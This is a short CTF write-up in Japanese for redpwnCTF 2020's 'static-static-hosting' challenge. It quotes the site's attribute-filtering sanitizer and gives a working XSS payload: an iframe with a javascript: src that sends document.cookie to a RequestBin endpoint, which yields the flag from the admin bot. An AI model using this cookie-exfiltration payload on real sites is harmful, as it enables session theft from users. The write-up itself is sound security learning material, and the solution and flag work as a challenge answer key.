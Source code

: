 # # <!--XXXXXXXXXX-->
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting)  
Site: [static-static-hosting.2020.redpwnc.tf](https://static-static-hosting.2020.redpwnc.tf/)  
Note: The site is entirely static. Dirbuster will not be useful in solving it.  

# Solution
ターゲットサイトとAdmin Botへ巡回命令を出せるサイトが与えられる。  
Static Static Hosting  
[site1.png](site/site1.png)  
Static Static Hosting Admin Bot Submission  
[site2.png](site/site2.png)  
入力によりユーザがページを作成できるようだ。  
そのページをAdmin Botに渡し、XSSでクッキーを抜く可能性が高い。  
作成したページでのXSSを試み、[RequestBin.com](https://requestbin.com/)で待ち受ける。  
作成したページでは以下のスクリプト(script.js)が動いていた。  
```JavaScript:script.js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
どうやらsrcは許されているようだがonerrorなどは使用できないようだ。  
srcで思い出すのがiframeでのXSSだ。  
以下のようにタグを書き込める。  
```html
<iframe src="javascript:window.location.href='https://[RequestBinURL]?get='+document.cookie">
```
普段はbase64をかませたものを使用しているが、今回はAdmin Botの仕様上動かなかった。  
作成されたページをAdmin Botに渡すとflagが得られる。  
```text
GET/?get=flag=flag{wh0_n33d5_d0mpur1fy}
```

## flag{wh0_n33d5_d0mpur1fy}